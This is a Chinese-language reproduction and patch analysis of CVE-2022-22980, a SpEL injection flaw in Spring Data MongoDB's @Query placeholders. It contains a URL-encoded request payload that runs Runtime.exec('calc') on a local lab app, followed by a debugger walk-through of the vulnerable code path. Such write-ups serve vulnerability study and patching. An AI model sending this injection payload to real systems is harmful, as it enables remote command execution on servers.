# CVE-2022-22980 Spring Data MongoDB SpEL表达式注入 复现分析

By. Whoopsunix

# 0x00 环境

docker开一个mongdb环境

```shell
docker pull mongo:4.2.21
docker run -itd --name mongo -p 27017:27017 mongo:4.2.21 --auth
```

# 0x01 复现

当配置使用@Query、@Aggregation注解进行查询，并且使用形如 `?0` 的占位符时将产生漏洞





payload

```
http://127.0.0.1:8080/find?name=%54%28%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%29%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29
```



# 0x02 补丁

漏洞影响版本

+ v3.4.0
+ v3.3.0 - v3.3.4

查看[官方补丁](https://github.com/spring-projects/spring-data-mongodb/compare/3.4.0...3.4.1)，在org.springframework.data.mongodb.util.json.ParameterBindingJsonReader#bindableValueFor() 中添加了一条正则，且注释中标记了 `?0`，因此着重分析该类



# 0x03 分析

以 v3.4.0 为例分析，根据补丁对 bindableValueFor() 函数入口处打断点，第一次进入时会对 name 进行处理



在二次进入时，则会调用预设的规则





继续往下当符合正则表达式的判断时，将继续往下走



这里将调用一个循环实现对占位符的替换，前后可以看到 `?0`被替换为传入的 1234，这里也 callback 官方补丁中的那个注释，很明显是官方的一个临时修复措施





接着会调用org.springframework.data.mongodb.util.json.ParameterBindingJsonReader#evaluateExpression()



最终将执行org.springframework.data.mongodb.repository.query.DefaultSpELExpressionEvaluator#evaluate()，并且传入的是 StandardEvaluationContext 类型的context，是一个标准实现包含SPEL的全部功能



继续跟进也能看到 expressionState 的构造也与context有关，最后getValue() 实现RCE


